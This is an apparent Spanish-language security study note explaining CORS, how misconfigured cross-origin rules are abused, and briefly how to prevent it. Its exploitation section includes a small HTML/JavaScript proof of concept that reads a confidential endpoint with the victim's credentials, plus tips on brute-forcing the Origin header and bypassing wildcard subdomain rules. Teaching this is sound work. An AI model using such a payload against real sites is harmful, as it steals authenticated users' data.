 ----
- Tags: #ataques #teoria #practica #basico 
---

# ¿ Que es el **CORS** ? 

El **intercambio de recursos de origin cruzado (CORS)** es un mecanismo que permite que un servidor web **restrinja** el **acceso a recursos** de **diferentes orígenes**, es decir, de diferentes dominios o protocolos. CORSS se utiliza para proteger la privacidad y seguridad de los usuarios al evitar que otros sitios web accedan a información confidencial sin permiso. 

Supongamos que tenemos un aplicación web en el domion **"example.com"** que utiliza una API web en el domio **"api.example.com"** para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el domion **"example.com"** a la API en el dominio **"api.example.com"**. SI se realiza un sollicitud desde un dominio diferente, como **"dobliuw.com"**, la solicitud será bloqueada por el navegador web. 

Sin embargo, si la aplicación web no está correctamente configurada para  CORS, un atacante podría aprobecharse de esta debilidad para acceder a recursos y datos confidenciales. Por ejemplo, si la aplicación web no valida la autorización del usuario para acceder a los recursos, un atacante podría inyectar código malicioso en un página web para realizar sollicitudes a la API de la aplicación en el dominio **"api.example.com"**. 

Un atacante podría utilizar herramientas automatiadas para probar diferentes valores de encabezados CORS y encontra un configuración incorrecta que permita la solicitud desde otro dominio. Si el atacante tien éxito, podría acceder a recursos y adatos condifenciales que no deberían estar disponibles desde su sitio web. Por ejemplo, podría recuperar la información de inicio de sesión de los usuarios, modificar losdatos de la aplicación, etc. 

----

# Evitar estos ataques 

Para prevenir este tipo de atauqe, es importante configurar adecuadamente CORS en la aplicación  web y asegurarse de que solo se permitan solicitudes de origen cruzado desde dominios confiables. 

----

# Explotación 

Para explotar esto, en caso de que a la hora de realizar una petición e interceptarla con [[Burpsuite]] veamos que acepta el intercambio de recursos de origen cruzado para todas las direcciones webs, es decir `Access-Control-Allow-Origin: *`, podríamos pensar en intentar abusar de esta mala configuración de cors. 
También se podría realizar un ataque de fuerza bruta remplazando la cabecera **Origin:** para ver los casos en el que se muestra en la respuesta la cabecera Access-Control-Allow-Origin (Sobre todo para subdominios).

Por lo que, por ejemplo, podriamos intentar crear un servidor 3ro propio en donde tengamos alojado un script para que cuando el usuario se meta realize una petición a un recurso privilegiado y obtener los datos de la web, incluso pudiendo clonar esta, por ejemplo el sig. script:  

```html 
<script>
   const reqListener = () => {
       document.getElementById("stolenInfo").innerHTML = req.responseText; 
   }

   const req = new XMLHttpRequest();
   req.onload = reqListener
   req.open('GET', 'http://localhost:5000/confidential', true); 
   req.withCredentials = true;
   req.send(); 

</script>


<center><h1> You has been pwned! </h1></center> 
<p id="stolenInfo"></p>
```

Algo que suele pasar es declararse las reglas de manera erronea, por ejemplo, para el dominio **dominio-a.com**, se permite CORS con **\*.dominio-a.com**, lo que permite burlar esta validación regristrando un dominio remplazanod el primer *.* por un caracter, pudiendo tener conexión con el servidor con un dominio como **Fdomino-a.com** 

